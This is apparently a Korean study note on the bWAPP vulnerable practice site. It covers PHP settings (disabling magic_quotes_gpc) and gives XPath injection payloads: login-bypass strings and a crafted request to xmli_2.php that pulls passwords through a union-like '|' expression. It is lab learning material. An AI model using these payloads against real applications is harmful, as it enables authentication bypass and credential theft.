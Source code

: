 ### bwapp

APM 기반의 실습 사이트이며, YOUTUBE 동영상으로도 실습 방법을 잘 제공하고 있어 매우 유용하다.

XPATH에 대해서는 알려진 자료가 부족하여 여기에 다시 다룬다.


### PHP 설정

직접 APM을 구축하였다면, 여러 설정들로 실습에 난항이 있다.

magic_quotes_gpc = On 일 경우, sql injection 및 싱글쿼트(')사 사용되는 XPATH injection 도 할 수 없다.

magic_quotes_gpc = Off 로 수정하거나, 입력 파라미터가 적용되기 전에 역슬래시를 제거한다.

stripslahes 함수도 써본다.

### XPATH 1

XPATH 관련 실습 과제가 2개가 있는데, 하나는 로그인 우회이다.

이는 SQL Injection과 거의 같다.

' or '1'='1

코드 형태에 따라 첫번째 사용자에 대해서 출력되거나, 입력된 사용자를 출력한다.

사용자를 확인하는 코드라면 {사용자}' or '1'='1 로 수정해야 동작할 것이다.

wolverine' or 'a'='a--

형태로 사용자명을 넣어주면, 원하는 사용자로 로그인 할 수 있다.


### XPATH 2

XPATH 실습 두번째는 union 과 유사하다.

코드에 따라 다르지만, bWAPP에서 제공하는 코드는 contains를 사용하여 vertical bar(|)로 조합한다.

실습 코드는 원래 장르에 따른 영화 이름을 출력하지만, 공격 코드는 패스워드를 출력하도록 되어 있다.

이해를 더 하고 싶으면, 서버를 구성하여, 조합된 공격 코드의 전체 구조를 확인하는 것이 좋다.


### XPATH 2 상세 내용

[코드]

$result = $xml->xpath("//hero[contains(genre, '**$genre**')]/movie");


[정상요청]

xmli_2.php?genre=**action**&action=search

[정상 외부 입력]

$xml->xpath(//hero[contains(genre, '**action**')]/movie);


[공격요청]

xmli_2.php?genre=**action')]/password+|+//hero[contains(genre,'+horror**&action=search

[공격 외부 입력]

$xml->xpath(//hero[contains(genre, '**action')]/password | //hero[contains(genre,' horror**')]/movie)
